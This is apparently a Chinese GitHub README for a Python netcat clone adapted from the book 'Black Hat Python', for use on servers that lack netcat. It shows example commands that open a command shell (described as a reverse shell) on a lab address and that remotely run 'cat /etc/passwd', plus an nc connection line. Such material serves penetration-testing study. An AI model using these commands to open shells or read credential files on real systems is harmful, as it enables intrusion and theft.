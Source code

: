 # simulation_netcat

日常攻防中，如果遇到没有安装netcat，却有python环境的服务器。

在这种情况下，要是能创建一个简单的网络客户端和服务端用来传送文件、远程执行命令，则大有用武之地。

源码99+均来自书中原样式，对少数bug进行修改但未完全实现完美好用。

[![img](https://camo.githubusercontent.com/9720111972806b0d6aa749d577980c88e1ae700828471da7091018065108afdd/68747470733a2f2f6b6f6d617265762e636f6d2f67687076632f3f757365726e616d653d4578704c616e67636e)](https://camo.githubusercontent.com/9720111972806b0d6aa749d577980c88e1ae700828471da7091018065108afdd/68747470733a2f2f6b6f6d617265762e636f6d2f67687076632f3f757365726e616d653d4578704c616e67636e)

------

🐍前言

案例来自《python黑帽子黑客与渗透测试编程之道》，翻译是大神@Gh0u1L5，腾讯玄武实验室安全研究员

书中一共24个实验，第一个实验（取代netcat），谈不上取代，只能说模拟。顾称simulation_netcat

💖环境

Win测试环境+kali测试环境+Ubuntu测试环境+pycharm开发环境

🎨简介

netcat俗称瑞士军刀，小巧灵活，牛逼plus，文件传输、反弹shell无所不能

🎄实例

- 查看帮助

```
python3 netcat.py --help
```

![image-20221230001426983](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300014203.png)

- 反弹shell

```
python3 netcat.py -t 192.168.31.19 -p 3333 -l -c
```

![image-20221230001532776](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300015869.png)

- 执行命令

```
python3 netcat.py -t 192.168.31.19 -p 3333 -l -e="cat /etc/passwd"
```

![image-20221230001658839](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300016983.png)

- nc融合

可作为服务端，客户端用原版nc同样可连接

```
nc 192.168.31.19 3333
```

![image-20221230001944498](https://icml0x824.oss-cn-hangzhou.aliyuncs.com/202212300019544.png)

- 问题

传输文件请用原版nc作为客户端

Linux-Linux测试成功

Windows-Linux测试成功

- 若遇到socket抛出的OSError: [Errno 99] Cannot assign requested address报错请自行google

